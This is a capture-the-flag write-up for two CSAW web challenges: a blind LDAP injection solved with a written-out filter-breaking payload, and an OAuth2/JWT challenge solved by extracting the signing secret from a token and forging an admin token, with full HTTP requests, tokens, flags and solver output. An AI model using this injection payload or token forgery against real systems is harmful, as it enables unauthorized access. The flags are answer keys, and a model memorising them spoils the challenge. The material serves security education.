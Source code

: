 <a name="ldab"/>

# Ldab

Points : 50

Sovled: **432 / 1448**

Tags: **Blind, Ldap injection**

Link: **http://web.chal.csaw.io:8080**

**How to solve ?**
- Search for list all of all users and groups 

**Solution**
1. Check for LDAP injection payloads [here](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LDAP%20injection)
2. Request `http://web.chal.csaw.io:8080/index.php?search=*))(|(GivenName=*)(UID=*`
3. Flag `flag{ld4p_inj3ction_i5_a_th1ng}`

<a name="sso"/>

# SSO

Points: 100

Sovled: **210 / 1448
How to solve ?**

Tags: **Blackbox, Oauth2, Signle Sign On, JWT token**

Link: **web.chal.csaw.io:9000**

**Steps to solve :**
- Use oauth 2.0 for authorization and authentication
- Get the secret to forge a valid JWT token and get the flag

**Solution :**
1. Get code authorization: `/oauth2/authorize`
 - response_type: `code`
 - redirect_uri: `http://web.chal.csaw.io:9000/protected`
 - state: `http://web.chal.csaw.io:9000/protected`
 - scopy: `http://web.chal.csaw.io:9000/protected`
 - client_id: `admin`
 - client_secret: `admin`

*Request*
```
POST /oauth2/authorize  HTTP/1.1
Host: web.chal.csaw.io:9000
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 228

response_type=code&redirect_uri=http://web.chal.csaw.io:9000/protected&state=http%3A%2F%2Fweb.chal%2Ecsaw%2Eio%3a9000%2Fprotected&scope=http%3A%2F%2Fweb.chal%2Ecsaw%2Eio%3a9000%2Fprotected&client_id=admin&client_secret=admin
```
*Response*
```
http://web.chal.csaw.io:9000/protected?code=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJjbGllbnRfaWQiOiJhZG1pbiIsInJlZGlyZWN0X3VyaSI6Imh0dHA6Ly93ZWIuY2hhbC5jc2F3LmlvOjkwMDAvcHJvdGVjdGVkIiwiaWF0IjoxNTM3MDYzODAzLCJleHAiOjE1MzcwNjQ0MDN9.fTuYlRB4HeXwKC6uo90s4Xqb3UHeoZMAoYjhaMuzdFw&amp;state=http%3A%2F%2Fweb.chal.csaw.io%3A9000%2Fprotected
```

2. Get token for authentication: `/oauth2/token`:
 - code: receive from request 1 
 - state: `http%3A%2F%2Fweb.chal.csaw.io%3A9000%2Fprotected`
 - grant_type: `authorization_code`
 - redirect_uri: `http://web.chal.csaw.io:9000/protected`
 - client_secret: `admin`
 - client_id: `admin`

*Request*
```
POST /oauth2/token HTTP/1.1
Host: web.chal.csaw.io:9000
Connection: close
Origin: http://web.chal.csaw.io:9000
Content-Type: application/x-www-form-urlencoded
Referer: http://web.chal.csaw.io:9000/oauth2/authorize
Content-Length: 411

code=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJjbGllbnRfaWQiOiJhZG1pbiIsInJlZGlyZWN0X3VyaSI6Imh0dHA6Ly93ZWIuY2hhbC5jc2F3LmlvOjkwMDAvcHJvdGVjdGVkIiwiaWF0IjoxNTM3MDYzODAzLCJleHAiOjE1MzcwNjQ0MDN9.fTuYlRB4HeXwKC6uo90s4Xqb3UHeoZMAoYjhaMuzdFw&state=http%3A%2F%2Fweb.chal.csaw.io%3A9000%2Fprotected&grant_type=authorization_code&redirect_uri=http://web.chal.csaw.io:9000/protected&client_secret=ufoundme!&client_id=admin
```

*Response*
```
{"token_type":"Bearer","token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoidXNlciIsInNlY3JldCI6InVmb3VuZG1lISIsImlhdCI6MTUzNzA2Mzg3MCwiZXhwIjoxNTM3MDY0NDcwfQ.4Vlaf8qsPoPyNNIX6CNVgn_w1zHbnVJEg5dJQZmMeGk"}
```

*Raw token*
```
{"alg":"HS256","typ":"JWT"}{"type":"user","secret":"ufoundme!","iat":1537063870,"exp":1537064470} + signature`
``` 

3. Crack signature JWT, change token 
 - Crack online on https://jwt.io/
![Crack JWT token](./resource_web/web-sso.png)

4. Get flag 

```
GET /protected HTTP/1.1
Host: web.chal.csaw.io:9000
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWRtaW4iLCJzZWNyZXQiOiJ1Zm91bmRtZSEiLCJpYXQiOjE1MzcwNjM4NzAsImV4cCI6MTUzNzA2NDQ3MH0.0nrhvscHLcDxopIVt6FzV8mn2KhGI4CbEMfOsrHvnJ0
Connection: close
Origin: http://web.chal.csaw.io:9000
Content-Type: application/x-www-form-urlencoded; charset=utf-8
Referer: http://web.chal.csaw.io:9000/oauth2/authorize
Content-Length: 369
```

5. Flag: `flag{JsonWebTokensaretheeasieststorage-lessdataoptiononthemarket!theyrelyonsupersecureblockchainlevelencryptionfortheirmethods}`

6. Code python for solve challenge: [here](./resource_web/sso.py)

```
$ Request to oauth2/authorize ...
> Code = eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJjbGllbnRfaWQiOiJhZG1pbiIsInJlZGlyZWN0X3VyaSI6Imh0dHA6Ly93ZWIuY2hhbC5jc2F3LmlvOjkwMDAvcHJvdGVjdGVkIiwiaWF0IjoxNTM3MTM2NTQ2LCJleHAiOjE1MzcxMzcxNDZ9.kV123Uzgg4H7i_DxNg6u6QCBiFP2y3sMFNzxZhXtrQw
$ Request to oauth2/token ...
> Token = eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoidXNlciIsInNlY3JldCI6InVmb3VuZG1lISIsImlhdCI6MTUzNzEzNjU0OCwiZXhwIjoxNTM3MTM3MTQ4fQ.inn4CGJOX4ID6kab4YdK70ZKqBwV0Be92s6dp2yAUvA
$ Crack signature and change data ...
> New token = eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ0eXBlIjoiYWRtaW4iLCJzZWNyZXQiOiJ1Zm91bmRtZSEiLCJpYXQiOjE1MzcxMzY1NDgsImV4cCI6MTUzNzEzNzE0OH0.60wi5F1gDUUqNLCKLPDAiENUBRJWhFEzE1xeFqc8RrQ
$ Request to /protected ...
flag{JsonWebTokensaretheeasieststorage-lessdataoptiononthemarket!theyrelyonsupersecureblockchainlevelencryptionfortheirmethods}
```
